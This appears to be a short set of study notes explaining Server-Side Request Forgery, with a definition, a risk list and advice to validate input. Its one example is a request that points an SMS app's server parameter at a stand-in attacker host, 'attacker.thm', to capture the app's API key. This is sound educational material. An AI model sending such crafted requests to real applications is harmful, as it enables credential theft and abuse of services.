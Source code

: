 ### Server-Side Request Forgery (SSRF)

-> It is basically when attacker uses the request of the server to access or trick to access the internal resources with the previlage of the server.


**Definition:**  
SSRF is a type of vulnerability that allows an attacker to manipulate a web application into sending requests on their behalf to any destination. This can happen when the application interacts with external services.

**Example:**  
Imagine a web application that sends SMS notifications via an external API. The application requires an API key for authentication. If the app allows users to specify the API server in the request, an attacker could change the server parameter to a server they control.

- **Request from Attacker:**  
  ```
  https://www.mysite.com/sms?server=attacker.thm&msg=ABC
  ```

- **Resulting Request Sent by the App:**  
  ```
  https://attacker.thm/api/send?msg=ABC
  ```

In this case, the attacker receives the API key and can send SMS messages at the application's expense.

**Potential Risks of SSRF:**
1. **Network Enumeration:** Discover internal IP addresses and services.
2. **Access to Restricted Services:** Exploit trust relationships between servers to access protected services.
3. **Remote Code Execution (RCE):** Interact with non-HTTP services to execute code remotely.

**Conclusion:**  
SSRF can have serious implications, allowing attackers to exploit trust relationships and gain access to sensitive information or services. Always validate and sanitize user inputs to prevent SSRF vulnerabilities.

